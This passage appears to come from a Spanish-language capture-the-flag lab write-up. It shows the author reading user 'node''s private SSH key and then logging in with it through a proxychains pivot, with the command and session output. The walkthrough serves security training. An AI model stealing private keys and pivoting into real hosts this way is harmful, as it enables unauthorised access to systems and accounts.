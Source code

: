 Vemos que funciona, y que hay un usuario llamado `node`, vamos a intentar leer su clave privada 

![Image 21](/assets/images/grandma/node_key.png) 

Copiamos la clave y nos logeamos por ssh por el puerto `2222` 

```python 
❯ proxychains ssh -i g3_rsa node@30.30.30.3 -p 2222
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-<>-127.0.0.1:8888-<>-127.0.0.1:1080-<--timeout
|D-chain|-<>-127.0.0.1:8888-<><>-30.30.30.3:2222-<><>-OK
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Fri Sep 13 19:39:50 2024 from 30.30.30.2
node@a316ce03e2e0:~$
``` 
